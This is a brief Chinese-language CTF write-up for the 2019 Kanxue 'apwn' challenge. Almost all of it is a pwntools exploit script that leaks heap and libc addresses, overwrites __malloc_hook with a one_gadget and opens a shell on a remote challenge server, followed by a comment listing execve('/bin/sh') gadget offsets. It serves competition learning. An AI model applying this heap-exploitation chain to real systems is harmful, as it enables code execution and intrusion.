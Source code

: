 ```yaml
---
title: Kanxuectf_2019_apwn
date: 2019-04-10 22:54:03
tags:
---
```

apwn 情境挺有意思的
<!--more-->
# start
题目没啥好说的...任意地址写
有leak
# 思路
leak heap libc & modify malloc_hook..
# 坑点.
做题10min环境5小时
不知是否故意为了增加做出时间不给libc.没给libc结果是2.27的...做的我一脸懵逼...然后我的ubuntu18又和服务器上有点区别我的一开始在init的时候会有一个0x410的tcache所以全靠幻想在做题...

坑死人了..题目半小时左右就做好了结果为了猜环境ubuntu14，16，kali，18全试过..有些机子还没有得docker搞了3,4个小时...



## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter(">>\n",str(c))
def add_1(name=p64(0x21)*4):
	cmd(1)
	p.sendafter("Name:\n",name)
def add_2(name="YY"):
	cmd(2)
	p.sendafter("Name\n","YY")
	p.sendafter("name\n",name)
def edit_1(idx,name):
	cmd(3)
	p.sendlineafter("which?\n",str(idx))
	p.sendafter("luck.\n",name)
def edit_2(idx,name,pname):
	cmd(4)
	p.sendlineafter("which?\n",str(idx))
	p.sendafter("name?\n",name)
	p.sendafter("name\n",pname)
def free():
	cmd(5)

libc=ELF("./libc-2.27.so")
#libc=ELF("./apwn").libc
#p=process("./apwn")
p=remote("211.159.175.39",8686)

#p=remote("127.0.0.1",1026)
add_1()#0
add_2()
edit_1((0x2e0-0x60)/8,'\x60')
p.readuntil("name: ")
heap=(u64(p.readuntil("1")[:-1].ljust(8,'\x00'))-0X60)#&0xfffffffffffff000
log.warning(hex(heap))

edit_2(0,"YY",p64(0)+p64(0x431))
edit_1((0x2e0-0x60)/8,p64(heap+0x70))

for x in range(60):
	add_1()#1

free()
add_1("\n")

edit_1(60,"AAAAAAAA")


p.readuntil("name: AAAAAAAA")
base=u64(p.readuntil("1")[:-1].ljust(8,'\x00'))-(0x7fce69891090-0x7fce694a5000)
libc.address=base
log.warning(hex(base))




add_2()#1
edit_1((0x2e0-0x60)/8,p64(heap+0xa0))
edit_2(0,"YY",p64(libc.symbols['__malloc_hook']))
one=0x10a38c
edit_2(1,"YY",p64(one+base))

cmd(1)
#now 0
'''
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:

'''

p.interactive()

#single 0x000000000202060+0x0000555555554000
#lucky 00000000002022E0
```
